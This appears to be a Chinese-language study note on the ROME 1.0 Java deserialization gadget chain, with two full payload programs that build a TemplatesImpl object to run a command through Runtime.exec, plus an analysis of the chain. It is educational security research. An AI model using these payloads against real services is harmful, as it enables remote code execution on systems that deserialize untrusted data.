





##  环境搭建

```xml
        <!-- https://mvnrepository.com/artifact/com.alibaba/fastjson -->
        <dependency>
            <groupId>rome</groupId>
            <artifactId>rome</artifactId>
            <version>1.0</version>
        </dependency>
```

## payload1

利用链子：

```java
 * TemplatesImpl.getOutputProperties()
 * NativeMethodAccessorImpl.invoke0(Method, Object, Object[])
 * NativeMethodAccessorImpl.invoke(Object, Object[])
 * DelegatingMethodAccessorImpl.invoke(Object, Object[])
 * Method.invoke(Object, Object...)
 * ToStringBean.toString(String)
 * ToStringBean.toString()
 * ObjectBean.toString()
 * EqualsBean.beanHashCode()
 * ObjectBean.hashCode()
 * HashMap<K,V>.hash(Object)
 * HashMap<K,V>.readObject(ObjectInputStream)
```

payload:

```java
package org.example;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ObjectBean;
import javassist.ClassPool;
import javassist.CtClass;

import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;

public class Main {
    public static void setFieldValue(Object obj,String name,Object value) throws Exception{
        Field field =obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj,value);
    }
    public static void main(String[] args) throws Exception{
        ClassPool pool= ClassPool.getDefault();
        CtClass ctClass=pool.get(test.class.getName());
        byte[] code= ctClass.toBytecode();
        TemplatesImpl templates=new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][]{code});
        setFieldValue(templates, "_name", "z3eyond");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
        ObjectBean objectBean=new ObjectBean(ObjectBean.class,new ObjectBean(String.class,"z3eyond"));
        HashMap hashMap=new HashMap();
        //这个put也会触发，所以先传一个正常的ObjectBean
        hashMap.put(objectBean,"z3eyond");
        //恶意类
        ObjectBean objectBean1=new ObjectBean(Templates.class,templates);
        setFieldValue(objectBean,"_equalsBean",new EqualsBean(ObjectBean.class,objectBean1));
        ByteArrayOutputStream baos=new ByteArrayOutputStream();
        ObjectOutputStream oos=new ObjectOutputStream(baos);
        oos.writeObject(hashMap);
        ByteArrayInputStream bais=new ByteArrayInputStream(baos.toByteArray());
        ObjectInputStream ois=new ObjectInputStream(bais);
       Object obj= ois.readObject();
    }
}
```

test类：

```java
package org.example;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;


public class  test extends AbstractTranslet {
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {}

    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {}

    public test() throws Exception {
        super();
        Runtime.getRuntime().exec("calc");
        System.out.println(123);
    }
}


```

## payload2

这个payload只是将payload1的两个类合并在一起了。

```java
package org.example;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ObjectBean;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;

import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;

public class Rome1 {
    private static byte[] getTemplatesImplEvilCode(String cmd) throws Exception{
        String body="Runtime.getRuntime().exec(\""+cmd+"\");";
        ClassPool pool=ClassPool.getDefault();
        CtClass ctClass=pool.makeClass("z3eyond");
        CtClass superClass=pool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet");
        ctClass.setSuperclass(superClass);
        CtConstructor constructor=ctClass.makeClassInitializer();
        constructor.setBody(body);
        byte[] bytes=ctClass.toBytecode();
        ctClass.defrost();
        return bytes;
    }
    private static void setFieldValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj,value);
    }
    public static void main(String[] args) throws Exception{
        String cmd = "calc";
        byte[] code=getTemplatesImplEvilCode(cmd);
        TemplatesImpl templates=new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][]{code});
        setFieldValue(templates, "_name", "z3eyond");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
        ObjectBean objectBean=new ObjectBean(ObjectBean.class,new ObjectBean(String.class,"z3eyond"));
        HashMap hashMap=new HashMap();
        //这个put也会触发，所以先传一个正常的ObjectBean
        hashMap.put(objectBean,"z3eyond");
        //恶意类
        ObjectBean objectBean1=new ObjectBean(Templates.class,templates);
        setFieldValue(objectBean,"_equalsBean",new EqualsBean(ObjectBean.class,objectBean1));
        ByteArrayOutputStream baos=new ByteArrayOutputStream();
        ObjectOutputStream oos=new ObjectOutputStream(baos);
        oos.writeObject(hashMap);
        ByteArrayInputStream bais=new ByteArrayInputStream(baos.toByteArray());
        ObjectInputStream ois=new ObjectInputStream(bais);
        Object obj= ois.readObject();
    }
}

```


## 分析：

前面`hashMap`的`readObject`到`ObjectBean`的`hashCode`,就是之前一样的思路




注意实例化传进来的参数`beanClass,obj`

在`EqualsBean`实例化继续使用





我们需要触发`ObjectBean`的`toString`，所以`obj=new ObjectBean`

进入`ToStringBean`类的`toString`方法：

关于`stack类`，可以看看https://www.runoob.com/java/java-stack-class.html

```java
public String toString() {
        Stack stack = (Stack)PREFIX_TL.get();
        String[] tsInfo = (String[])(stack.isEmpty() ? null : stack.peek());
        String prefix;
        if (tsInfo == null) {
            String className = this._obj.getClass().getName();
            prefix = className.substring(className.lastIndexOf(".") + 1);
        } else {
            prefix = tsInfo[0];
            tsInfo[1] = prefix;
        }

        return this.toString(prefix);
    }
private String toString(String prefix) {
        StringBuffer sb = new StringBuffer(128);

        try {
            PropertyDescriptor[] pds = BeanIntrospector.getPropertyDescriptors(this._beanClass);
            if (pds != null) {
                for(int i = 0; i < pds.length; ++i) {
                    String pName = pds[i].getName();
                    Method pReadMethod = pds[i].getReadMethod();
                    if (pReadMethod != null && pReadMethod.getDeclaringClass() != Object.class && pReadMethod.getParameterTypes().length == 0) {
                        Object value = pReadMethod.invoke(this._obj, NO_PARAMS);
                        this.printProperty(sb, prefix + "." + pName, value);
                    }
                }
            }
        } catch (Exception var8) {
            sb.append("\n\nEXCEPTION: Could not complete " + this._obj.getClass() + ".toString(): " + var8.getMessage() + "\n");
        }

        return sb.toString();
    }
```

这个位置根本不需要关心`prefix`的值

在`PropertyDescriptor[] pds = BeanIntrospector.getPropertyDescriptors`可以获取一个类的属性的所有`getter和setter`



然后就在这一行触发了TemplatesImpl的`getoutputProperties`

```java
Object value = pReadMethod.invoke(this._obj, NO_PARAMS);
```



##  总结：

利用链：利用 HashMap 反序列化触发 ObjectBean 的 hashCode 方法，再触发 ObjectBean 封装的 ObjectBean 的 toString 方法，之后即可触发` TemplatesImpl`利用链


Gadget 总结：

- kick-off gadget：`java.util.HashMap#readObject()`
- sink gadget：`com.sun.syndication.feed.impl.ToStringBean#toString()`
- chain gadget：`com.sun.syndication.feed.impl.ObjectBean#toString()`